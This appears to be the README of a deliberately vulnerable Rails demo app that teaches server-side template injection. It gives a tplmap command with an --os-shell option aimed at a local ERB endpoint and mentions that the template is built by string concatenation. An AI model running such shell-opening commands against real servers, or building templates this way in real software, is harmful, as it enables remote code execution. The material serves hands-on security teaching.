 # # Hands-on SSTI attack on Rails app

This application is a demonstration prototype just to show how to perform SSTI (Server side templating injection) attack.

## Run server

```console
rails server
```

## Hack

Run SSTI attack with [tplmap](https://github.com/epinna/tplmap/blob/master/README.md):

```console
./tplmap.py --data 'name=value1' --engine erb --os-shell -u 'http://localhost:3000'
```

In this example, the template is built by concatenation :scream:
